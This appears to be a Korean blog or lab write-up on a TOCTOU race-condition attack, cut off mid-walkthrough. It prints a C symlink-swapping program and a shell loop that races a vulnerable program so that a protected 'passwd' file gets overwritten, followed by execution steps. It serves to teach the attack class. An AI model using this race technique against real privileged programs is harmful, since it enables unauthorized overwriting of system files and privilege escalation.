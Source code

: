 **✨if문 내에서 지연이 발생하는 동안 다른 파일로 redirect하여 다른 파일에 접근하는 방법을 사용하여 공격이 가능하다**

---

### 공격자가 작성한 코드 분석

#### _symbolic-link.c_
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char *argv[]){
	unlink(argv[1]);
	symlink("./passwd", argv[1]);
	return 0;
}
```
> passwd파일을 symbolic link의 destination로 설정한다.
- [soft link VS hard link](https://ndb796.tistory.com/506)
- [How to use symlink()](https://badayak.com/entry/C%EC%96%B8%EC%96%B4-%EC%8B%AC%EB%B3%BC%EB%A6%AD-%EB%A7%81%ED%81%AC%EB%A5%BC-%EC%83%9D%EC%84%B1-%ED%95%A8%EC%88%98-symlink)

#### _exploit.sh_
```shell
old=`ls -l passwd`; new=`ls -l passwd`

while [ "$old" = "$new" ]
do
	rm -rf temp
	echo "This is a file that the user can overwrite" > temp
	echo "TOCTOU-Attack-Success" | ./vulnerable-program temp & ./symbolic-link temp & new=`ls -l passwd`

done

rm -rf temp;

echo "STOP... The passwd file has been changed"
```
> Attacker가 작성한 심볼릭 링크를 이용한 TOCTOU공격 수행 shellscript이다.
passwd파일의 상태를 확인하고 상태가 변경되면 while문을 종료하는 스크립트이다. vulnerable-program과 symbolic-link를 계속해서 변경하며 수행한다. vulnerable-program에 temp파일을 입력값으로 전달하고 동시에, symbolic-link 프로그램이 temp파일을 이용하여 백그라운드에서 실행된다. 이때, passwd파일의 상태를 확인하여 변경 여부를 파악한다.
```shell
echo "TOCTOU-Attack-Success" | ./vulnerable-program temp & ./symbolic-link temp & new=`ls -l passwd`
```
표준 출력은 버퍼를 사용하지 않고 파이프를 통해 취약한 프로그램에 입력값으로 제공된다. temp파일의 권한을 확인하고 쓰기 작업이 시작되면 입력값이 입력된다. '&' 는 이전 명령과 상관없이 백그라운드에서 symbolic link를 수행하게 해준다. 

---
### 공격 실행
1. exploit.sh실행 전, passwd파일 내용 확인<br>
 ```cat passwd```<br>
	<div style="float: left; margin-right: 20px;">
     <img src="/assets/img/_POST/Tocout Exploit/image10.png" alt="cat passwd">
	</div>
	<div style="clear: both;"></div> 

2.  shellscript실행<br>
 ```sh exploit.sh```<br>
	<div style="float: left; margin-right: 20px;">
	<img src="/assets/img/_POST/Tocout Exploit/image11.png" alt="sh exploit.sh">
	</div>
 ```